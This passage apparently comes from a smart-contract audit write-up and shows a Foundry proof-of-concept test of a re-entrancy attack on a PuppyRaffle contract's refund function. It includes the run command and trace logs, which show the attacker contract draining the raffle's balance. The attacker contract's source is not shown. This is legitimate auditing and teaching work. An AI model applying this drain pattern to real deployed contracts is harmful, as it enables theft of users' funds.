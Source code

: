 ```solidity
```

#### Test Case

```solidity
function testReFundReEntrancy() public {
    // 4 players enter the raffle
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value : entranceFee * 4}(players);
    // attacker's contract enter the raffle
    Exp exp = new Exp{value : 2 ether}(address(puppyRaffle));
    string memory beforeAttackPuppyRaffleBalance = vm.toString(address(puppyRaffle).balance / 1 ether);
    string memory beforeAttackExpBalance = vm.toString(address(exp).balance / 1 ether);
    // Before Attack Balance: PuppyRaffle->4ether,Exp->2ether
    console.log("Before Attack Balance: PuppyRaffle->%sether,Exp->%sether", beforeAttackPuppyRaffleBalance, beforeAttackExpBalance);
    // re-entrancy attack
    exp.Attack();
    // After Attack Balance: PuppyRaffle->0ether,Exp->6ether
    string memory afterAttackPuppyRaffleBalance = vm.toString(address(puppyRaffle).balance / 1 ether);
    string memory afterAttackExpBalance = vm.toString(address(exp).balance / 1 ether);
    console.log("After Attack Balance: PuppyRaffle->%sether,Exp->%sether", afterAttackPuppyRaffleBalance, afterAttackExpBalance);
}
```

#### Run The Test

```bash
forge test --mt testReFundReEntrancy -vvvv
```

#### Output

```bash
Ran 1 test for test/PuppyRaffleTest.t.sol:PuppyRaffleTest
[PASS] testReFundReEntrancy() (gas: 609113)
Logs:
  Before Attack Balance: PuppyRaffle->4ether,Exp->2ether
  After Attack Balance: PuppyRaffle->0ether,Exp->6ether

Traces:
  [629013] PuppyRaffleTest::testReFundReEntrancy()
    ├─ [121825] PuppyRaffle::enterRaffle{value: 4000000000000000000}([0x0000000000000000000000000000000000000001, 0x0000000000000000000000000000000000000002, 0x0000000000000000000000000000000000000003, 0x0000000000000000000000000000000000000004])
    │   ├─ emit RaffleEnter(newPlayers: [0x0000000000000000000000000000000000000001, 0x0000000000000000000000000000000000000002, 0x0000000000000000000000000000000000000003, 0x0000000000000000000000000000000000000004])
    │   └─ ← [Stop] 
    ├─ [314430] → new Exp@0x2e234DAe75C793f67A35089C9d99245E1C58470b
    │   └─ ← [Return] 1458 bytes of code
    ├─ [0] VM::toString(4) [staticcall]
    │   └─ ← [Return] "4"
    ├─ [0] VM::toString(2) [staticcall]
    │   └─ ← [Return] "2"
    ├─ [0] console::log("Before Attack Balance: PuppyRaffle->%sether,Exp->%sether", "4", "2") [staticcall]
    │   └─ ← [Stop] 
```